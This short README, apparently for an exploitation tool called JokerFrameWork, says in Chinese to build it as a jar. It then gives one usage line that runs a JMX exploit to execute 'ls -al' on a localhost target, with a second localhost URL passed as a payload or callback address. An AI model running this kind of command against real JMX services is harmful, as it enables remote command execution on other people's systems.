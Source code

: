 # JokerFrameWork

最简单的使用方法：

编成jar文件

```
exploit jmx command -t 127.0.0.1:23333 -cmd "ls -al" -i http://127.0.0.1:9999
```


